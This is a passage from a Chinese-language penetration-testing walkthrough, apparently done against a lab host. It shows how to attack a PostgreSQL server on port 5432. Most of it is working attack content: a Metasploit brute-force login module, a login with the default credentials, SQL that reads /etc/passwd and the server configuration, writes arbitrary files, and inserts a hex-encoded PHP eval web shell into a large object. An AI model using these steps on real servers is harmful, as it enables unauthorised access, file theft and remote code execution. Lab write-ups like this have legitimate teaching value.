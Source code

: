 或者enum4linux查看！

--------------------------------------------
--------------------------------------------
10、攻击路径九：5432 PostgreSQL漏洞利用

PostgreSQL是一个功能非常强大的、源代码开放的客户/服务器关系型数据库管理系统（RDBMS）。

尝试爆破PostgreSQL数据库用户名密码：

use auxiliary/scanner/postgres/postgres_login
set rhosts  192.168.253.135
run
[+] 192.168.253.135:5432 - Login Successful: 
postgres
postgres@template1

psql -h 192.168.253.135 -U postgres
postgres@template1

......无法登录，尝试postgres为密码成功登录！

1）列出目录
select pg_ls_dir('./');
发现(16 行记录)

2）读取权限允许的文件
select pg_read_file('postgresql.conf',0,1000);

3）读取/etc/passwd第一行
DROP TABLE if EXISTS MrLee;CREATE TABLE MrLee(t TEXT);COPY MrLee FROM '/etc/passwd';select * from MrLee limit 1 offset 0;

4）直接读出所有数据
SELECT * FROM MrLee;
按下Q退出当前页面！

5）利用数据库写文件
INSERT INTO MrLee(t) VALUES('hello,MrLee');
COPY MrLee(t) TO '/tmp/MrLee';

SELECT * FROM MrLee;
读取发现：
hello,MrLee
(46 行记录)
显示里面有一句hello,MrLee，成功写入文件，并成功读取到源内容

6）创建OID，清空内容
SELECT lo_create(998);
delete from pg_largeobject where loid=998;

7）接下来就是写入木马使用hex---小葵
<?php @eval($_POST['d']);?>
0x3C3F70687020406576616C28245F504F53545B2764275D293B3F3E

insert into pg_largeobject (loid,pageno,data) values(998, 0, decode('3C3F70687020406576616C28245F504F53545B2764275D293B3F3E', 'hex'));
